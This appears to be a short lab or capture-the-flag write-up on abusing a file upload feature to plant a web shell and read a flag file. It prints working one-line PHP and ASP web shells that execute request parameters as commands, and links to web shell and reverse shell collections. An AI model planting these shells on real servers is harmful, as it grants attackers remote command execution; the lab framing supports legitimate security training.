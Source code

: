 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt
---

Usefull shells:
- https://github.com/Arrexel/phpbash
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- ```php
  <?php system($_GET['cmd']); ?>
  ```
- `.NET`:
  ```asp
  <% eval request('cmd') %>
  ```

`Reverse shells`:
- https://github.com/pentestmonkey/php-reverse-shell
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

---

## Uploading the Web Shell  

We uploaded the web shell `phpbash.php`:  

![image](https://github.com/user-attachments/assets/96804962-33fd-43e2-9d9c-c411de360d86)  

Using the web shell, we executed commands and successfully resolved the lab:  

![image](https://github.com/user-attachments/assets/664b66f6-8fc1-4244-86e5-9278a9e74e8f)  






